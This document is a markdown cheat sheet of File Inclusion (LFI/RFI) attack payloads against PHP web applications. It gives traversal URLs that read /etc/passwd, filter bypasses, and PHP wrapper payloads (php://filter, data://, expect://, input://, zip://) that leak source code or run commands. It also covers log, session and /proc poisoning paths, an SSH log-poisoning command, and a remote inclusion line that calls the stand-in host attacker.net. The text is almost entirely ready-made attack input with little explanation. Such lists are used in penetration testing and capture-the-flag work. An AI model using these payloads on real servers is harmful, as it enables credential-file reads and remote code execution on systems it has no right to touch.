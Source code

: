 ## File Inclsusion (LFI/RFI)

![](https://miro.medium.com/v2/resize:fit:644/1*UPMlwBWgKMSUzSvY5mt5uw.png)

**What is File Inclusion  Attack?**

A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time.

**General Payloads**

```
http://vulnerable-web.com/index.php?page=../../../etc/passwd (Read /etc/passwd)
http://vulnerable-web.com/index.php?page=/etc/passwd (Read /etc/passwd)
http://example.com/index.php?page=/etc/passwd%00 (Read /etc/passwd) [Fixed in PHP 5.4 and later versions]
http://example.com/index.php?page=..././..././..././..././..././..././..././..././etc/passwd (Bypass ../ Filters)
http://example.com/index.php?page=../../../etc/passwd (3 dots in Linux)
http://example.com/index.php?page=http://attacker.net/eval.php.txt (Remote File Inclusion)
```

# PHP wrappers & protocols

**php://filter**

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
```

**data://**

```
http://example.com/index.php?page=data://text/plain;base64,%50%44%39%77%61%48%41%67%63%33%6c%7a%64%47%56%74%4b%43%64%73%63%79%63%70%4f%79%41%2f%50%67%3d%3d (Useful For WAF bypass)
http://example.com/index.php?page=data:text/plain,%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%20%3f%3e (Will print php info)
```

**expect://**

```
http://example.com/index.php?page=expect://ls [For fopen Function]
```

**input://**

```
curl -X POST -d "<?php system('ls'); ?>" http://example.com/index.php?page=input://
```

**php://fd/**

```
http://example.com/index.php?page=php://fd/[0-9] (Opened Files In Current Process)
```

**zip://**

```
http://example.com/index.php?page=zip://path-to-zip-file/%23shell.php
```

# Web Serice Software logs Poisoning

**Apache2**

```
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/httpd/error_log
```

**Nginx**

```
/var/log/nginx/access.log
/var/log/nginx/error.log
```

# Process Poisoning

```
/proc/self/environ
/proc/self/status
/proc/[id]/fd/[id]
/proc/self/[id]
```

# LFI to RCE via uploaded file

```
http://example.com/index.php?page=./uploads/shell.png
```

# SSH log Poisoning

```
$ ssh '<?php phpinfo(); ?>@example.com'
http://example.com/index.php?page=/var/log/auth.log
```

# PHP Session Poisoning

```
 /var/lib/php/sess_[PHPSESSID]
/tmp/sess_[PHPSESSID]
/var/lib/php/sessions/sess_[PHPSESSID]
```

# PHP session.upload_progress 

```
curl --cookie "PHPSESSID=attacker" -F "PHP_SESSION_UPLOAD_PROGRESS=<?php phpinfo(); ?>" -F "file=@test.png" http://example.com/
#then view session path like /var/lib/php/sess_attacker
```

# Best walkthrough ever
[Click here](https://www.facebook.com/100035201946522/posts/pfbid02zghX3gn5cgjqNtcBQRdzzSoVf5kECpjCqg19t4JRmxXqgmbpV6f551cwCyFMgUq7l/?app=fbl)
